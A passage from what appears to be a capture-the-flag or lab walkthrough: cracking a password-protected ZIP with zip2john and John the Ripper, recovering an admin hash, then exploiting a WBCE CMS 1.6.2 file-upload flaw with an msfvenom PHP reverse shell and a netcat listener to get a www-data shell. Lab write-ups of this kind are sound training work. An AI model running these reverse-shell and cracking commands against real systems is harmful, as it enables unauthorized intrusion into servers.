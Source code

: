 We found a ZIP file, but it’s password-protected. To access its content, we need to crack the password.

First, we use `zip2john`, a tool that extracts a hash from the ZIP file. This hash represents the encrypted password and can be used by John the Ripper.

```bash
zip2john breakglass.zip > hash.txt
```

This creates a `hash.txt` file that contains the ZIP’s password hash.

Then, we use `john` (John the Ripper) to try to crack the password using a rockyou wordlist :

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Inside the ZIP, we find a file with an **MD5 hash** for the admin password. We will try to decrypt it online (e.g., https://md5decrypt.net).

🎉 We recover the admin password.

---

## 🧑‍💻 Step 5 – Accessing the Admin Interface (WBCE CMS)

The Admin interface is a CMS **WBCE 1.6.2**. Searching online shows an exploit using `.inc` file upload:

https://www.exploit-db.com/exploits/52039

`.inc` files can be executed like `.php` on misconfigured servers.

---

## 🐚 Step 6 – Reverse Shell via WBCE CMS Exploit

We gonna Generate a PHP reverse shell in `.inc` format:

```bash
msfvenom -p php/reverse_php LHOST=10.20.20.20 LPORT=4444 -f raw > shell.inc
```

We set up a listener:

```bash
nc -lvnp 4444
```

Uploading `shell.inc` to `/media/` in the CMS and trigger it in the browser.

🎉 We now have a shell as `www-data`.

---

## 🧍‍♂️ Step 7 – Privilege Escalation to User

Checking the privileges we currently have on the system
```bash
id
```
